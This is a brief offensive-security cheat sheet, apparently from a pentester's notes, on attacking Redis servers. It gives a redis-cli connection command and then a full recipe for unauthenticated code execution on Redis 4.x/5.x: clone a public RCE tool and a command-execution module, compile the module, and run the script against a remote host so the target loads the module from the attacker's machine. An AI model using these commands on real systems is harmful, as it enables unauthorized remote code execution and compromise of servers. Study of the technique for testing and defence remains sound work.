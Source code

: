 # Redis

- Authenticate Redis
```
redis-cli -h 192.168.181.69 -p 6379
```


## Redis 4.x / 5.x - Unauthenticated Code Execution [linux/redis/redis_replication_cmd_exec]

```
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
python3 redis-rce.py -r <remote-ip> -p <port> -L <local-ip> -f ../RedisModules-ExecuteCommand/module.so
```
